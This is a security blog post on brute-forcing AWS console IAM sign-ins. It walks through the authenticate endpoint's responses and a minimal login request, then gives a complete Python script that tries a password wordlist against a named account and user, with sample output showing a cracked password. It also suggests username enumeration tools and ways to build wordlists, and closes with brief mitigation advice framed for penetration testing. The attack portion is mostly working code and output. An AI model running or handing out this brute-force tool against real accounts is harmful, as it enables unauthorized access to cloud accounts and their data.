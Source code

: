 ```yaml
---
title: How to brutefore AWS console sign-in
author: Naikordian
date: 2021-09-15 10:00:00 -0500
categories: [Reseach,Cloud]
tags: [AWS]
---
```


## Introduction
I saw some vendors have a detection rule about AWS Console brute force login and I was curious if there any AWS console brute force tool. So I start google but found nothing and I think there should be a way to brute force.

## How does console sign in work?
When you click "Sign in" the console will send login data to https://signin.aws.amazon.com/authenticate and return a response
 
if the user enable MFA:
```json
{"state":"SUCCESS","properties":{"result":"MFA","mfaType":"SW","header":"Multi-factor Authentication","cancelLink":"https://console.aws.amazon.com/console/home?fromtb\u003dtrue\u0026hashArgs\u003d%23\u0026state\u003dhashArgsFromTB_us-east-1_4301e3df13c998fe","text":"Enter an MFA code to complete sign-in."}}
```
Login success:
```json
{"state":"SUCCESS","properties":{"result":"SUCCESS","redirectUrl":"https://console.aws.amazon.com/console/home?code\u003RUYiLCJlbmMiOiJ.....................................................YXgvJagvR8sF7w"}}
```
 Incorrect username/password:
```json
{"state":"FAIL","properties":{"result":"FAILURE","text":"Your authentication information is incorrect. Please try again."}}
```
Missing some header:
```html
There seems to be a problem with your session. Or you are trying to access an AWS region that is not enabled for your account. <br />
 If the problem persists try clearing your browser cookies or <a href="https://console.aws.amazon.com/iam/home?region=us-east-1" target="_blank">sign in into the US East region</a>.
We apologize for the inconvenience.<br />
```
Missing some POST data :
```json
{"state":"FAIL","properties":{"Message":"Invalid request","Title":"Bad Request","header":"Bad Request","text":"Invalid request"}}
```

So I remove unnecessary parameters the request will look like this :


```python
import requests

headers = {
    'Referer': 'https://signin.aws.amazon.com/oauth?client_id=arn%3Aaws%3Asignin%3A%3A%3Aconsole%2Fcanvas&code_challenge=HX2l8ZYWg_5-bz_ed-RChnM-GNqJFbWBiDBbtq1-HVQ&code_challenge_method=SHA-256&response_type=code&redirect_uri=https%3A%2F%2Fconsole.aws.amazon.com%2Fconsole%2Fhome%3Ffromtb%3Dtrue%26hashArgs%3D%2523%26isauthcode%3Dtrue%26state%3DhashArgsFromTB_us-east-1_5674597973dd3cd0&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEKv%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLWVhc3QtMSJGMEQCIFTWCIdWxMlnFxwHYxlpNxADKYyFjHxvuQqbiITcIZguAiB3o%2FsGsv9UbgQWi8UWH5r%2FgBHNK4%2FIaYM0brhqI%2BcpzyqTAgiD%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAEaDDM1ODgyMTg4MDU2NSIMAtX%2BUfkVugJIEPKoKucBprpcJ0aOyAwP%2FHCPbyTIR1HkK%2F1XdC2dh2cdoPBpkSu%2FXgSLjtuRat4ZoPpIN9PtFCU8zYVhWhf%2BMRThkEDK1tUx8zwjPoE%2B%2BfwkBhBNXGmeptTDfprZ7LosegbiJe86zT8o3VOv4%2FE0tmJHcnSrsbEhM87AikUQvobKY6Lr4JlqU7MM3uuU6pxf7Vz1sagypCfcj%2FSKPlOqsFzmGyFpd9W4KNN%2BWceq9rGLmvHUbKOnN64I73uxWVH%2Bsj10CKgCfw060zjKHfZj41KcNvAazr7HyjT8Qmj1AjsmVw12hc4kobOh6zF8MM6G6oYGOpABiohVmFhrhpvVbITOoSePH7jdiC4my%2B60vDPkj5Av4Euz2Jdb2svTXMRXH82CQkhBl9EhflGz%2BMEp3n2AeJ4ySIajogQPrN0AqGDTQVxxhjcQ24%2F6ueSUC0MsL9irM2tt2Hm%2BHLsZ9zIFF7wSCWtBVVGJsYbcCL659kAWrWuFhXRiofBN7cRvyUZSqO83J2zA&X-Amz-Date=20210629T022227Z&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAVHC3TML2YHA5VWS4%2F20210629%2Fus-east-1%2Fsignin%2Faws4_request&X-Amz-SignedHeaders=host&X-Amz-Signature=11d78bf1043164b982b04e82f0c33a5866bc35cc70e53da3c6d8353ba525719d',
}

data = {
  'action': 'iam-user-authentication',
  'account': '123456789012',
  'username': 'console_user',
  'password': 'password',
  'client_id': 'arn:aws:signin:::console/canvas',
  'redirect_uri': 'https://console.aws.amazon.com/console/home',
}

response = requests.post('https://signin.aws.amazon.com/authenticate', headers=headers, cookies=cookies, data=data)
```
The referer header has an AWS credential that got from the sign-in page but you can just remove GET parameters the request still works. 
so the final playload will look like this:
```python
import requests

headers = {
    'Referer': 'https://signin.aws.amazon.com',
}

data = {
  'action': 'iam-user-authentication',
  'account': '123456789012',
  'username': 'console_user',
  'password': 'password',
  'client_id': 'arn:aws:signin:::console/canvas',
  'redirect_uri': 'https://console.aws.amazon.com/console/home',
}

response = requests.post('https://signin.aws.amazon.com/authenticate', headers=headers, data=data)
print(response.text)

```
##  Where to find usernames?
You can use a Rhino Security Labs' research [Using AWS Account ID’s for IAM User](https://rhinosecuritylabs.com/aws/aws-iam-user-enumeration/) or Pacu module `iam__enum_users` to enumerate usernames.

## Brute force password
### Requirements
- AWS account id
- Console username
- Password wordlist
### Prepare a wordlist
if you have a permission `iam:GetAccountPasswordPolicy` or you already know the target account's password policy you should follow that policy
but if you don't I recommend using the default policy as a guideline.

The default user password policy:
-   Minimum password length is 8 characters
-   Include a minimum of three of the following mix of character types: uppercase, lowercase, numbers, and ! @ # $ % ^ & * ( ) _ + - = [ ] { } | '
-   Must not be identical to your AWS account name or email address

If you want to make sure the wordlist cover all password as possible you can use this

The weakest possible password policy:
-   Minimum password length is 6 characters

### Brute force script

```python
#!/usr/bin/python3
import argparse
import requests

headers = {
    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
    'referer': 'https://signin.aws.amazon.com',
}

data = {
  'action': 'iam-user-authentication',
  'account': '123456789012',
  'username': 'console_user',
  'password': 'password',
  'client_id': 'arn:aws:signin:::console/canvas',
  'redirect_uri': 'https://console.aws.amazon.com/console/home',
}


requests.urllib3.disable_warnings()

parser = argparse.ArgumentParser()
parser.add_argument('--account-id','-id', required=True, default=False, metavar='account_id', type=str)
parser.add_argument('--username','-u', required=True, default=False, metavar='username', type=str)
parser.add_argument('--wordlist','-w', required=True, default=False, metavar='file_path', type=str)
args = parser.parse_args()

if __name__ == '__main__':
    data['account'] = args.account_id
    data['username'] = args.username
    passwords = open(args.wordlist).read().splitlines()
    for password in passwords:
        data['password'] = password
        response = requests.post(
                'https://signin.aws.amazon.com/authenticate',
                headers=headers,
                data=data,
                verify=False
                )
        if '"result":"SUCCESS"' in response.text:
            print(response.text)
			print("="*20)
            print("Passwrod: ", password)
            break
```
Usage:
```console
./poc.py -id 0123456789012 -u console_user -w passwords.txt
{"state":"SUCCESS","properties":{"result":"SUCCESS","redirectUrl":"https://console.aws.amazon.com/console/home?code\ueyJ6a........................0EqLmrg"}}
====================
Passwrod:  Brut3f0r3_P@ssw0rd
```
## Mitigation
I recommend enabling MFA for all console users. You can also monitor Cloudtrail log eventName: `ConsoleLogin` if you see a lot fail login attempts in a short period and see login success from the same IP maybe someone got into your account.
## Conclusion
This technique combined with a Rhino Security Labs' research[1] could be useful when you perform penetration testing AWS accounts and demonstrate how important MFA and strong password policy are necessary to make your AWS account secure.


[1]: https://rhinosecuritylabs.com/aws/aws-iam-user-enumeration/
